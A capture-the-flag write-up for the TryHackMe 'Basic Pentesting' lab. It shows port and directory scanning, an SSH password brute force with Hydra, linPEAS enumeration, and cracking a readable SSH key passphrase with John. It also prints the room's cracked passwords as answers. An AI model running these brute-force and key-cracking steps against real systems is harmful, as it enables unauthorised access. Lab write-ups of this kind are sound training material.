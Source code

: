 ```yaml
---
title: Basic Pentesting
date: 2022-04-25 17:00:00 +500
categories: [THM, easy machines]
tags: [bruteforce,hash]     # TAG names should always be lowercase
---
```



## Web App Testing and Privilege Escalation

### Find the services exposed by the machine
We are going to start with a fast Nmap scan and then a more detailed of the ports found

```bash
nmap -p- -open -T4 -v -n 10.10.31.125
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
```

```bash
nmap -p- -open -T4 -v -n 10.10.31.125
```

```
PORT     STATE  SERVICE       VERSION
22/tcp   open   ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db45cbbe4a8b71f8e93142aefff845e4 (RSA)
|   256 09b9b91ce0bf0e1c6f7ffe8e5f201bce (ECDSA)
|_  256 a5682b225f984a62213da2e2c5a9f7c2 (ED25519)
80/tcp   open   http          Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
445/tcp  open   netbios-ssn   Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
1339/tcp closed kjtsiteserver
8009/tcp open   ajp13         Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### What is the name of the hidden directory on the web server(enter name without /)?

Going to the site there's nothing helpful, but in the source code, there's a comment "Check our dev note section if you need to know what to work on." this might be a hint. anyway let's run a directory scan with Gobuster

```bash
gobuster dir -u 10.10.31.125 -w /usr/share/dirb/wordlists/common.txt
```

and sure it was, the scan found the /development directory. in there, we found two notes

```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

```

2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

from this we can deduct things, there are two potential users -J and -K, the user -J has a weak password, and they're using some software with version 2.5.12

### User brute-forcing to find the username & password

I don't how I was supposed to brute force the username but doing reconnaissance on the smb service I found a Anonymous share that I can log into, and there it was a note with the usernames

```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

### What is the username?

> jan

### What is the password?

now I guess this is the part where I have to brute force, and by discard, I'll brute force the ssh service. For this I'll use hydra, the syntax is:
hydra -l [user] -P [passlist] [ip] -t 64 ssh
- t being the number of parallel task

```terminal
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.31.125 -t 64 ssh
```

and we got a password!

```
[22][ssh] host: 10.10.31.125   login: jan   password: armando
```

> armando

### What service do you use to access the server(answer in abbreviation in all caps)?

> SSH 

### Enumerate the machine to find any vectors for privilege escalation

I didn't find anything doing a quick enum so I'll try to use linPEAS as the hint also say.

I don't have writing permissions on my home directory so I'll transfer the file to the /dev/shm directory which is for creating temporary files and we have writing permissions there using scp.

```terminal
scp ./linpeas.sh jan@10.10.31.125:/dev/shm
```
then make it executable and run it 

```terminal
chmod +x linpeas.sh
./linpeas.sh
```

kay id_rsa key is readable


### What is the name of the other user you found(all lower case)?

checking the /home directory we can see that is:

> kay

### If you have found another user, what can you do with this information?

since we know that kay id_rsa key is readable let's try to crack it with john

first, we convert it to a format that john understand with ssh2john

```terminal
ssh2john id_rsa > hash
```

then we can crack the passphrase with:
```terminal
john -w=/usr/share/wordlists/rockyou.txt hash
```
 
this gave us 
```
beeswax          (id_rsa)
```

now let's try to connect to this user.

remember to give permissions to the id_rsa key
```
chmod 600 id_rsa
```

and now we connect with:
```terminal
ssh -i id_rsa kay@10.10.31.125
```

we put in the passphrase that we cracked, and we are in!

### What is the final password you obtain?

now that we are in we can read the file pass.bak that we saw previously in the enum phase, which contained this password.

> heresareallystrongpasswordthatfollowsthepasswordpolicy$$
